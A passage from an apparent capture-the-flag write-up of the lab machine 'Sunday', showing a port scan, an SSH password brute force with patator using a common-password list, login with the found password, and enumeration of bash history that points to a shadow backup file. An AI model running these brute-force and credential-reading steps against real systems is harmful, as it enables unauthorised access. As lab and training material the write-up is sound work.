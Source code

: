 We see users with ssh are sammy, sunny and root. Since the box is called sunday, let’s attempt to bruteforce sunny first. However, right now there are no ssh port even though sunny is logged in via ssh. Let’s do another scan:

```bash
rustscan -a 10.10.10.76

79/tcp    open  finger    syn-ack ttl 59
111/tcp   open  rpcbind   syn-ack ttl 63
515/tcp   open  printer   syn-ack ttl 59
6787/tcp  open  smc-admin syn-ack ttl 59
22022/tcp open  unknown   syn-ack ttl 63
```

We input the port into nmap again and 22022 is ssh. We can bruteforce find the password with patator, since hydra will not output valid results due to downgrade of ssh key authencation.

```bash
patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE0 0=/usr/share/seclists/Passwords/Common-Credentials/probable-v2_top-1575.txt persistent=0 -x ignore:fgrep='failed'

10:11:41 patator    INFO - 0     19     0.193 | sunday                             |   880 | SSH-2.0-OpenSSH_8.4

```

Password could also be guessed as sunday:

```bash
ssh sunny@10.10.10.76 -p 22022
```

We are in. Let’s enumerate:

```bash
id

uid=101(sunny) gid=10(staff)

cat .bash_history

su -
su -
cat /etc/resolv.conf 
su -
ps auxwww|grep overwrite
su -
sudo -l
sudo /root/troll
ls /backup
ls -l /backup
cat /backup/shadow.backup
sudo /root/troll
sudo /root/troll
su -
sudo -l
sudo /root/troll
ps auxwww
ps auxwww
ps auxwww
top
top
top
ps auxwww|grep overwrite
su -
su -
cat /etc/resolv.conf 
ps auxwww|grep over
```